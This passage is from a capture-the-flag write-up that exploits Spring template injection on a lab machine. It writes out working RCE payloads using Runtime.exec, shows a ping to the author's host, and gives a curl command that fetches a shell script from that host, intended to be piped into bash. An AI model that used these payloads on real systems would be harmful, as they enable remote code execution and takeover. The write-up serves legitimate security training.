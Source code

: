 ![image-20221121160417155](https://0xdfimages.gitlab.io/img/image-20221121160417155.png)

`@{7*7}` return the same. `#{7*7}` also works, returning a bit more junk:

![image-20221121160444324](https://0xdfimages.gitlab.io/img/image-20221121160444324.png)

#### RCE POC

The payload from the article above is
`${T(java.lang.Runtime).getRuntime().exec('calc')}`. I’ll change the leading
`$` to `*` and instead of running `calc`, try `id`:

![image-20221121160624067](https://0xdfimages.gitlab.io/img/image-20221121160624067.png)

It looks like the command executed, but I don’t get a response. I can try to
`ping` my host with `*{T(java.lang.Runtime).getRuntime().exec('ping -c 1
10.10.14.6')}`, and it works:

    
    
    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    21:07:24.116693 IP 10.10.11.170 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
    21:07:24.116743 IP 10.10.14.6 > 10.10.11.170: ICMP echo reply, id 2, seq 1, length 64
    

Alternatively, there are payloads that return the result, such as the one on
the [HackTricks SSTI page](https://book.hacktricks.xyz/pentesting-web/ssti-
server-side-template-injection#spring-framework-java):

    
    
    *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
    

Pasting that into the search box verbatim shows the output of `id`:

![image-20221121160855128](https://0xdfimages.gitlab.io/img/image-20221121160855128.png)

### Shell

#### curl POC

Given the complication of this payload, I’ll use `curl` to read a file from my
VM and if that works, try to pipe it into `bash`. I’ll go into Burp proxy and
find the POC `id` request above. I’ll send that request to repeater, and
change that `id` to `curl 10.10.14.6/shell`. With a `python` web server
running, I’ll submit the request, and there’s a request at my webserver:

    
    
    oxdf@hacky$ python -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.11.170 - - [21/Nov/2022 21:11:51] code 404, message File not found
    10.10.11.170 - - [21/Nov/2022 21:11:51] "GET /shell HTTP/1.1" 404 -
    